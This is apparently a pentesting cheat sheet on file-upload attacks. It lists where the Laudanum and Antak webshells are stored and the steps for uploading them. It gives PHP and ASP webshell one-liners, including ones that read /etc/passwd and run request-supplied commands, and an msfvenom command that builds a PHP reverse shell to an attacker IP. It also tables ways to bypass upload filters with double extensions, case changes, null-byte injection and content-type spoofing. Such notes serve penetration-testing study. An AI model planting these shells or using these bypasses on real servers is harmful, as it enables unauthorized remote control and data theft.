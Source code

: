 ### Laudanum Webshell 

```bash
## Laudanum file directory (Contains different webshell files)
cd /usr/share/webshells/laudanum

## Example usage
## Copy and upload to the server
cp /usr/share/webshells/laudanum/aspx/shell.aspx /home/tester/demo.aspx 

## Modify ip parameters in line 59 to include own ip
```

### Antak Webshell

Webshell buit-in ASP.Net within Nishang Project.

```bash
## Antak file directory
ls /usr/share/nishang/Antak-WebShell

## Example usage
## Copy and upload to the server
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx

## Modify credentials in line 14
```

### PHP Webshell

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

### Possible scenario 
- Website only allow uploading image file types (.png,.jpg,.gif, etc.). Bypass using Proxy and Burp Suite to modify content-type.

